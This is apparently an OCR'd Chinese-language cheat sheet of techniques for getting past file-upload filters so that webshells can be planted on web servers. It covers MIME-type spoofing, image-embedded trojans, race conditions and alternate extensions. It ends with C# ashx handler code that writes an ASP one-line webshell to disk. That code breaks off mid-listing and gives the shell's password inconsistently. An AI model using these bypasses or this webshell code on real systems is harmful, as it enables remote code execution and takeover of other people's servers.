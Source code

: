 #### MIME类型绕过

```
上传木马时，提示格式错误。直接抓包修改Content-Type 为正确的格式尝试绕过
```

#### 文件内容检测绕过

```
抓包，在正常图片末尾添加一句话木马
```

#### 多次上传Win特性绕过

```
多次上传同一个文件，windows会自动更新补全TEST (1).php。
有时会触发条件竞争，导致绕过。
```

#### 条件竞争绕过

```
通过BURP不断发包，导致不断写入Webshell，再写入速度频率上超过安全软件查杀频率，导致绕过。
```

#### CONTENT-LENGTH绕过

```
针对这种类型的验证，我们可以通过上传一些非常短的恶意代码来绕过。上传文件的大小取决于，Web服务器上的最大长度限制。我们可以使用不同大小的文件来fuzzing上传程序，从而计算出它的限制范围。
```

#### 文件内容检测绕过

```
针对文件内容检测的绕过，一般有两种方式，
1.制作图片马
2.文件幻术头绕过
```

#### 垃圾数据填充绕过

```
修改HTTP请求，再之中加入大量垃圾数据。
```

### 黑名单后缀绕过

#### 文件扩展名绕过

```
Php除了可以解析php后缀 还可以解析php2.php3，php4 后缀
```

#### ashx上传绕过

```
cer,asa,cdx等等无法使用时候。
解析后就会生成一个test.asp的马，你就可以连接这个test.asp  密码为:put
<%@ WebHandler Language="C#" Class="Handler" %>
using System;
using System.Web;
using System.IO;
public class Handler : IHttpHandler {

    public void ProcessRequest (HttpContext context) {
        context.Response.ContentType = "text/plain";

        //这里会在目录下生成一个test.asp的文件
        StreamWriter file1= File.CreateText(context.Server.MapPath("test.asp"));
        //这里是写入一句话木马   密码是：ptu
        file1.Write("<%response.clear:execute request("put"):response.End%>");
```